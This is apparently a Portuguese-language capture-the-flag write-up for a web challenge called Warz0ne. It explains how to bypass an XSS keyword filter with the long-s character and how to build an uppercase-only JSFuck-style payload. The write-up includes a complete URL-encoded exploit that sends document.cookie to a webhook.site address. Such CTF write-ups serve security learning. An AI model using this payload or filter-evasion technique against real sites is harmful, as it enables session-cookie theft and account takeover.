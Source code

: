 # Warz0ne

- Data do desafio: 2020-05-15
- Categoria: web

A página possui um campo de texto e um botão que insere o texto em uma parte da página, convertendo-o para caixa alta. Essa inserção é feita pelo parâmetro `msg` da URL, então podemos manipulá-lo diretamente.

```html
<html>
<body style="background-color: #62AAFC;text-align: center;">
<h1> Texo em caixa alta para uma boa treta</h1>
<div>
<form>
<label for="fname">Mensagem:</label><br><br>
<input type="text" name="msg" value="hello"><br><br>
<input type="submit" value="Submit">
</form>
<p id='msgtext'></p>
</div>
<script>var w = "undefined";var msg = w.toUpperCase();document.getElementById("msgtext").innerHTML = msg;</script>
</body>
</html>
```

## Bypass

Ao inserir alguns textos para obter um XSS, percebemos que alguns termos, como "script", "src" e "on" são filtrados. Esta filtragem ocorre antes de o conteúdo ser convertido para caixa alta, então podemos procurar algum caractere que passe pelo filtro mas, ao ser convertido, seja igual a um dos caracteres que queremos. Vamos, por exemplo, procurar por todos os caracteres que são convertidos para "S":

```javascript
for (var i = 0; i < 1000; i++) {
  if (String.fromCharCode(i).toUpperCase() === "S") {
    console.log(i, String.fromCharCode(i));
  }
}
```

O resultado:

```
83 S
115 s
383 ſ
```

Ou seja, o caractere "ſ" (U+017F Latin Small Letter Long S) é convertido para "S" pela função `toUpperCase`, permitindo inserir termos como "script" e "src". Na verdade, o Keerok já havia postado um [tweet](https://twitter.com/k33r0k/status/1252324682151362566) sobre isso!

Infelizmente, nenhum caractere diferente de "o", "O", "n" e "N" é convertido para "O" ou "N", então teremos que fazer um payload com "script" ou "src" mesmo.

## Payload

Se tentarmos inserir `<ſcript>alert(1)</ſcript>`, o conteúdo é inserido mas o código não é executado porque ele foi inserido usando `innerHTML` e isso [não é permitido pela especificação do HTML 5](https://www.w3.org/TR/2008/WD-html5-20080610/dom.html#innerhtml0):

> Note: script elements inserted using innerHTML do not execute when they are inserted.

Em outra tentativa, o payload `<iframe ſrc=javaſcript:alert(1)>` chega mais próximo, mas retorna um erro: `ReferenceError: ALERT is not defined`. Termos como `IFRAME` E `JAVASCRIPT` são devidamente interpretados pelo navegador, mas como o JS distingue maiúsculas e minúsculas, a função `ALERT` não existe e o erro é retornado. Precisamos encontrar uma forma de executar JS utilizando apenas maiúsculas.

Primeiro, vamos definir qual será nosso payload: `fetch('http://webhook.site/<id>?c='+document.cookie)` (onde `<id>` é o seu código do webhook). Como todo o payload utiliza letras minúsculas, o método `toLowerCase` resolveria nossos problemas.

Vamos utilizar algumas técnicas do [JSFuck](http://www.jsfuck.com/) para representar alguns objetos e funções úteis. Baseado [neste post](https://medium.com/@Master_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce), criei uma variável para cada letra minúscula:

```javascript
Á=![];
É=!![];
Í=[][[]];
Ó=+[![]];
SI=+(+!+[]+(!+[]+[])[!+[]+!+[]+!+[]]+[+!+[]]+[+[]]+[+[]]+[+[]]);
ST=([]+[]);
Ü=(+[]);
A=(Á+'')[1];
D=(Í+'')[2];
E=(É+'')[3];
F=(Á+'')[0];
G=[![]+[+[]]+[[]+[]][+[]][[![]+{}][+[]][+!+[]+[+[]]]+[[]+{}][+[]][+!+[]]+[[][[]]+[]][+[]][+!+[]]+[![]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[!![]+[]][+[]][+!+[]]+[[][[]]+[]][+[]][+[]]+[![]+{}][+[]][+!+[]+[+[]]]+[!![]+[]][+[]][+[]]+[[]+{}][+[]][+!+[]]+[!![]+[]][+[]][+!+[]]]][+[]][!+[]+!+[]+[+[]]];
I=([Á]+Í)[10];
L=(Á+'')[2];
T=(É+'')[0];
O=(É+[][F+I+L+L])[10];
R=(É+'')[1];
N=(Í+'')[1];
M=(+(208))[T+O+'S'+T+R+I+N+G](31)[1];
P=(+(211))[T+O+'S'+T+R+I+N+G](31)[1];
S=(Á+'')[3];
U=(Í+'')[0];
V=(+(31))[T+O+'S'+T+R+I+N+G](32);
X=(+(101))[T+O+'S'+T+R+I+N+G](34)[1];
Y=(Ó+[SI])[10];
Z=(+(35))[T+O+'S'+T+R+I+N+G](36);
C=([][F+I+L+L]+'')[3];
H=(+(101))[T+O+'S'+T+R+I+N+G](21)[1];
K=(+(20))[T+O+'S'+T+R+I+N+G](21);
W=(+(32))[T+O+'S'+T+R+I+N+G](33);
J=([][E+N+T+R+I+E+S]()+'')[3];
B=([][E+N+T+R+I+E+S]()+'')[2];
SP=([]+[])[C+O+N+S+T+R+U+C+T+O+R][F+R+O+M+'C'+H+A+R+'C'+O+D+E](32);
```

Com estas variáveis, podemos representar o cookie da seguinte forma:

```javascript
WINDOW=[][F+I+L+L][C+O+N+S+T+R+U+C+T+O+R](R+E+T+U+R+N+SP+T+H+I+S)();
COOKIE=WINDOW[D+O+C+U+M+E+N+T][C+O+O+K+I+E];
```

A URL e a execução do `fetch` são representados da seguinte forma (não se esqueça de alterar o `<id>`!):

```javascript
URL=['https://webhook.site/<id>%3Fc='][0][T+O+'L'+O+W+E+R+'C'+A+S+E]();
WINDOW[F+E+T+C+H](URL+COOKIE);
```

Precisamos unir todo o código e substituir o caractere "+" por "%2B" para que ele seja devidamente interpretado pelo navegador. Assim, o payload final é:

```
http://159.65.249.122:8585/?msg=%3Ciframe%20%C5%BFrc=java%C5%BFcript:%C3%81=![];%C3%89=!![];%C3%8D=[][[]];%C3%93=%2B[![]];SI=%2B(%2B!%2B[]%2B(!%2B[]%2B[])[!%2B[]%2B!%2B[]%2B!%2B[]]%2B[%2B!%2B[]]%2B[%2B[]]%2B[%2B[]]%2B[%2B[]]);ST=([]%2B[]);%C3%9C=(%2B[]);A=(%C3%81%2B%27%27)[1];D=(%C3%8D%2B%27%27)[2];E=(%C3%89%2B%27%27)[3];F=(%C3%81%2B%27%27)[0];G=[![]%2B[%2B[]]%2B[[]%2B[]][%2B[]][[![]%2B{}][%2B[]][%2B!%2B[]%2B[%2B[]]]%2B[[]%2B{}][%2B[]][%2B!%2B[]]%2B[[][[]]%2B[]][%2B[]][%2B!%2B[]]%2B[![]%2B[]][%2B[]][!%2B[]%2B!%2B[]%2B!%2B[]]%2B[!![]%2B[]][%2B[]][%2B[]]%2B[!![]%2B[]][%2B[]][%2B!%2B[]]%2B[[][[]]%2B[]][%2B[]][%2B[]]%2B[![]%2B{}][%2B[]][%2B!%2B[]%2B[%2B[]]]%2B[!![]%2B[]][%2B[]][%2B[]]%2B[[]%2B{}][%2B[]][%2B!%2B[]]%2B[!![]%2B[]][%2B[]][%2B!%2B[]]]][%2B[]][!%2B[]%2B!%2B[]%2B[%2B[]]];I=([%C3%81]%2B%C3%8D)[10];L=(%C3%81%2B%27%27)[2];T=(%C3%89%2B%27%27)[0];O=(%C3%89%2B[][F%2BI%2BL%2BL])[10];R=(%C3%89%2B%27%27)[1];N=(%C3%8D%2B%27%27)[1];M=(%2B(208))[T%2BO%2B%27S%27%2BT%2BR%2BI%2BN%2BG](31)[1];P=(%2B(211))[T%2BO%2B%27S%27%2BT%2BR%2BI%2BN%2BG](31)[1];S=(%C3%81%2B%27%27)[3];U=(%C3%8D%2B%27%27)[0];V=(%2B(31))[T%2BO%2B%27S%27%2BT%2BR%2BI%2BN%2BG](32);X=(%2B(101))[T%2BO%2B%27S%27%2BT%2BR%2BI%2BN%2BG](34)[1];Y=(%C3%93%2B[SI])[10];Z=(%2B(35))[T%2BO%2B%27S%27%2BT%2BR%2BI%2BN%2BG](36);C=([][F%2BI%2BL%2BL]%2B%27%27)[3];H=(%2B(101))[T%2BO%2B%27S%27%2BT%2BR%2BI%2BN%2BG](21)[1];K=(%2B(20))[T%2BO%2B%27S%27%2BT%2BR%2BI%2BN%2BG](21);W=(%2B(32))[T%2BO%2B%27S%27%2BT%2BR%2BI%2BN%2BG](33);J=([][E%2BN%2BT%2BR%2BI%2BE%2BS]()%2B%27%27)[3];B=([][E%2BN%2BT%2BR%2BI%2BE%2BS]()%2B%27%27)[2];SP=([]%2B[])[C%2BO%2BN%2BS%2BT%2BR%2BU%2BC%2BT%2BO%2BR][F%2BR%2BO%2BM%2B%27C%27%2BH%2BA%2BR%2B%27C%27%2BO%2BD%2BE](32);WINDOW=[][F%2BI%2BL%2BL][C%2BO%2BN%2BS%2BT%2BR%2BU%2BC%2BT%2BO%2BR](R%2BE%2BT%2BU%2BR%2BN%2BSP%2BT%2BH%2BI%2BS)();COOKIE=WINDOW[D%2BO%2BC%2BU%2BM%2BE%2BN%2BT][C%2BO%2BO%2BK%2BI%2BE];URL=[%27https://webhook.site/<id>%3Fc=%27][0][T%2BO%2B%27L%27%2BO%2BW%2BE%2BR%2B%27C%27%2BA%2BS%2BE]();WINDOW[F%2BE%2BT%2BC%2BH](URL%2BCOOKIE);%3E
```

Resta apenas enviar a URL na página `/contact` para obter a flag no webhook.

Flag: `HACKAFLAG{Insira_Um4_fl4g_4qu1}`
